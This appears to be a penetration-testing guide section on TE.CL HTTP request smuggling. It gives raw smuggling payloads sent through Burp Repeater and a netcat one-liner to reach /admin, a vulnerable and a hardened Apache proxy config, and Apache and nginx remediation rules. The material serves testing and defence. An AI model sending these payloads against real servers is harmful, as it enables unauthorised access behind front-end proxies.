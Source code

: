 **Steps**:
1. Inject TE.CL payloads:
   - Use Burp Repeater:
     ```http
     POST / HTTP/1.1
     Host: example.com
     Transfer-Encoding: chunked
     Content-Length: 4

     0

     GET /admin HTTP/1.1
     Host: example.com

     ```
   - Use Netcat:
     ```bash
     echo -e "POST / HTTP/1.1\nHost: example.com\nTransfer-Encoding: chunked\nContent-Length: 4\n\n0\n\nGET /admin HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
     ```
2. Check responses:
   - Look for smuggled request effects (e.g., `/admin` access).
   - Test: `Transfer-Encoding: chunked\r\nContent-Length: 3\r\n\r\n0\r\n\r\nPOST /api`.
3. Monitor backend:
   - Check for unexpected requests (gray-box).
4. Use Burp’s HTTP Request Smuggler:
   - Automate TE.CL detection.

**Example Vulnerable Config (Apache)**:
```
<VirtualHost *:80>
    ProxyPass / http://backend/
</VirtualHost>
```
Test: TE.CL payload
Result: Smuggles `/admin`.

**Example Secure Config (Apache)**:
```
<VirtualHost *:80>
    ProxyPass / http://backend/
    RequestHeader unset Transfer-Encoding
</VirtualHost>
```
Test: No smuggling.

**Remediation**:
- Reject ambiguous requests:
  ```apache
  SetEnvIf Transfer-Encoding chunked bad_request=1
  Deny from env=bad_request
  ```
- Validate Content-Length:
  ```nginx
  if ($content_length !~ ^[0-9]+$) { return 400; }
  ```
